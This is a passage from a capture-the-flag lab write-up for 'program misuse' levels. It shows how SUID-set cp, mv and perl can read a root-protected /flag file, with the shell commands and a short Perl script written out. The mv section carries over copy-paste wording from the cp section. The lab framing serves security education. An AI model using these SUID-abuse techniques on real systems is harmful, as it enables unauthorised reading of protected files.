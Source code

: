The `cp` utility copies a file to the specified destination.

We know that the `/home/hacker` directory is a persistent one, i.e. every file in this directory is unmodified through all the levels. Knowing this, we can copy the `/flag` to this directory.

```
hacker@program-misuse~level39:~$ cp /flag flag.copy
```

Now, we can load level 1, and just `cat` the `flag.copy` file.

```
hacker@program-misuse~level1:~$ cat flag.copy
```

&nbsp;

## mv

> I just set the SUID bit on /usr/bin/mv.\
> Try to use it to read the flag!

The `mv` utility moves the specified file to the specified destination.

We know that the `/home/hacker` directory is a persistent one, i.e. every file in this directory is unmodified through all the levels. Knowing this, we can copy the `/flag` to this directory.

```
hacker@program-misuse~level40:~$ mv /flag flag.move
```

Now, we can load level 1, and just `cat` the `flag.copy` file.

```
hacker@program-misuse~level1:~$ cat flag.move
```

&nbsp;

## perl

> I just set the SUID bit on /usr/bin/perl.\
> Try to use it to read the flag!

Perl is a scripting language. As such, ew can use the following script to read the `/flag`.

```pl title="babysuid41.pl"
open(fh, "/flag");
$firstline = <fh>;
print "$firstline\n";
```

We have to use the `perl` utility to execute the script.

```
hacker@program-misuse~level41:~$ perl babysuid41.pl
```

&nbsp;

## python
